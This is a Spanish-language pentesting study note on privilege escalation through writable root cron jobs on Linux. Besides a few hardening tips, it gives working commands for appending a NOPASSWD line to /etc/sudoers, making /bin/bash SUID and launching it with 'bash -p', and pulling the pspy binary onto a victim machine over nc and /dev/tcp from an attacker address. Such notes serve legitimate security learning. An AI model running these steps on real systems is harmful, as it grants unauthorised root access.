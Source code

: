# Detección y explotación de tareas Cron

Tags: #Linux #CRON  #Escalada #Root #Privilegios #PSPY 

Una tarea **cron** es una tarea programada en sistemas Unix/Linux que se ejecuta en un momento determinado o en intervalos regulares de tiempo. Estas tareas se definen en un archivo **crontab** que especifica qué comandos deben ejecutarse y cuándo deben ejecutarse.

La detección y explotación de tareas cron es una técnica utilizada por los atacantes para elevar su nivel de acceso en un sistema comprometido. Por ejemplo, si un atacante detecta que un archivo está siendo ejecutado por el usuario “root” a través de una tarea cron que se ejecuta a intervalos regulares de tiempo, y se da cuenta de que los permisos definidos en el archivo están mal configurados, podría manipular el contenido del mismo para incluir instrucciones maliciosas las cuales serían ejecutadas de forma privilegiada como el usuario ‘root’, dado que corresponde al usuario que está ejecutando dicho archivo.

Ahora bien, para detectar tareas cron, los atacantes pueden utilizar herramientas como **Pspy**. Pspy es una herramienta de línea de comandos que monitorea las tareas que se ejecutan en segundo plano en un sistema Unix/Linux y muestra las nuevas tareas que se inician.

Con el objetivo de reducir las posibilidades de que un atacante lograra explotar las tareas cron en un sistema, se recomienda llevar a cabo alguno de los siguientes puntos:

```bash 
- Limitar el número de tareas cron: es importante limitar el número de tareas cron que se ejecutan en el sistema y asegurarse de que solo se otorgan permisos a tareas que requieren permisos especiales para funcionar correctamente. Esto disminuye la superficie de ataque y reduce las posibilidades de que un atacante pueda encontrar una tarea cron vulnerable.
- Verificar los permisos de las tareas cron: es importante revisar los permisos de las tareas cron para asegurarse de que solo se otorgan permisos a usuarios y grupos autorizados. Además, se recomienda evitar otorgar permisos de superusuario a las tareas cron, a menos que sea estrictamente necesario.
- Supervisar regularmente el sistema: es importante monitorear regularmente el sistema para detectar cambios inesperados en las tareas cron y para buscar posibles brechas de seguridad. Además, se recomienda utilizar herramientas de monitoreo de seguridad para detectar actividades sospechosas en el sistema.
- Configurar los registros de la tarea cron: se recomienda habilitar la opción de registro para las tareas cron, para poder identificar cualquier actividad sospechosa en las tareas definidas y para poder llevar un registro de las actividades realizadas por cada una de estas.
```

A continuación, se comparte el enlace al proyecto de Github correspondiente a la herramienta Pspy:
- [Pspy](https://github.com/DominicBreuker/pspy)

## CRON

```bash 
# Las tareas CRON son tareas que se ejecutan en el sistema a intervalos regulares de tiempo. Debemos de fijarnos solo en las tareas creadas por el usuario 'root'

❯ contrab -e       # Para definir una tarea CRON
❯ contrab -l       # Listas las tareas CRON del usuario
```

```bash
❯ grep -rnw /usr -e "/home/<user>/<file>"         # Lo debemos de hacer desde la raiz y asi podemos ver donde mas se encuentra el archivo 
```

```bash 
Si no tenemos un editor de texto, podemos hacer lo siguiente, donde haremos que el usuario tenga todos los privilegios sin passwd y lo colocaremos dentro del archivo que tiene la tarea CRON 'bin.sh'

❯ printf '#!/bin/bash\necho "<username> ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/bin.sh

	# \n = Salto de linea 

❯ sudo su                       # Cambiamos al usuario root sin proporcionar passwd
```
   
```bash 
# Podemos crearnos un Script llamado 'procmon.sh', le damos privilegios de ejecución para ver las tareas que se están ejecutando, poder ver los procesos nuevos y antiguos. También podemos ver que  tipo de comandos se están ejecutando y ver cual proceso nos puede ayudar a escalar privilegios. 

El archivo que necesitamos es el que lo esta ejecutando como root, además de que otros usuarios lo puedan modificar.

#!/bin/bash
	
function ctrl_c(){
	echo -e "\\n[!] Saliendo \\n"
	tput cnorm; exit 1
}
	
# Ctrl + c
trap ctrl_c INT
tput civis
old_process="$(ps -eo command)"

while true; do
	new_process="$(ps -eo command)"
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker"
	old_process=$new_process
done	
```

```bash 
# Podemos modificar el binario que tiene una tarea CRON y hacer una bash SUID.

❯ chmod u+s /bin/bash              # Haremos que la bash sea SUID
```

```bash 
❯ watch -n 1 ls -l /bin/bash       # Miraremos cada seg. el permiso de /bin/bash

	# n = Tiempo de actualizacion de 1 seg 
```

```bash 
❯ bash -p                          # Nos lanzamos la bash privilegiada, despues de convertirla SUID
```

```bash 
# También podemos usar PSPY para ver las tareas CRON. 
# En releases nos descargamos el binario .sh  > **pspy64**
# Para transferir el PSPY podemos usar la ruta '/dev/tcp' y después de transferirlo le damos permisos de ejecución. 

❯ nc -nlvp 443 < pspy64                       # Colocaremos este comando en la maquina de atacante 
❯ cat < /dev/tcp/192.168.68.1/443 > pspy      # Leeremos con cat lo que se esta compartiendo por el puerto 443 y ese output meterlo como input a pspy en la maquina victima
❯ md5sum pspy                                 # Para verificar si el binario se ha transferido correctamente, el md5 que obtenemos en la maquina victima del pspy64 debe de ser igual al de la maquina de atacante 
```
